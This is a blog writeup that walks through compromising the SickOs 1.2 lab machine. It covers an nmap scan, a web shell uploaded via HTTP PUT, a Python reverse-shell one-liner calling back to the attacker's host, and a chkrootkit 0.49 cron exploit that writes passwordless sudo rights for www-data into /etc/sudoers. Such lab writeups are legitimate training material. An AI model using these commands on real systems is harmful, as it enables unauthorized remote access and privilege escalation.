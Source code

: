 ```yaml
---
title: "SickOs 1.2"
layout: post
date: 2017-11-21
image: /assets/images/markdown.jpg
headerImage: false
tag:
- Writeup
- Pentest
category: blog
author: marioibarra
description:  SickOs 1.2 Writeup
---
```


# SickOs 1.2 Writeup



## Recon & Enumeration

An NMAP scan revealed 2 ports open on the target.

<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~/oscp/exam/10.10.10.12$ cat 10.10.10.12.nmap 
# Nmap 7.60 scan initiated Mon Nov  6 01:57:20 2017 as: nmap -sV -O -oN /home/mario/oscp/exam/10.10.10.12/10.10.10.12.nmap 10.10.10.12
Nmap scan report for 10.10.10.12
Host is up (0.00042s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    lighttpd 1.4.28
MAC Address: 00:0C:29:8A:41:77 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.8, Linux 3.16 - 4.6, Linux 3.2 - 4.8, Linux 4.4
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  6 01:57:47 2017 -- 1 IP address (1 host up) scanned in 28.00 seconds
</code></pre></figure>

After enumerating the http service **lighttpd**, a **/test/** directory was found.

![image](/assets/images/sickos1.2/test.png)

I checked if the PUT option was enabled on the directory with curl.

![image](/assets/images/sickos1.2/curl.png)




## Exploitation

PUT was in fact enabled, so I put a web shell on the directory that can execute linux commands.

![image](/assets/images/sickos1.2/put-test.png)

![image](/assets/images/sickos1.2/put-test2.png)


By accessing the web shell, I could execute commands directly on the target.

![image](/assets/images/sickos1.2/cmd.png)


Using the same web shell, I sent this python reverse shell to my machine:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.22",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I received the reverse shell with netcat.

![image](/assets/images/sickos1.2/www-shell.png)




## Post-Exploitation

I escaped the restricted shell by spawning a tty shell using python:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

After running my enumeration scripts and searching for possible privilege escalation vectors, I couldn't find any that stood out.  

I then checked the crontab for any applications that I could search on searchsploit.  Under /etc/cron.daily, chkrootkit was listed.

I checked the version of chkrootkit, 0.49, and found an exploit on searchsploit:

```bash
dpkg -l | grep chkrootkit
```

Under the **/tmp** directory, I created a file called "update" with commands to add the user **www-data** to the sudoers file, and I made it an executable file:
```bash
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update

chmod +x update
```

The exploit would run the command in the **/tmp/update** file whenever the cronjob occurred.

Since the cronjob for chkrootkit was run daily, I forced it to run instead of waiting:
```bash
run-parts --report /etc/cron.daily
```

After the cronjob ran, I had root access by running "**sudo su**" without a password needed.

![image](/assets/images/sickos1.2/root.png)

![image](/assets/images/sickos1.2/flag.png)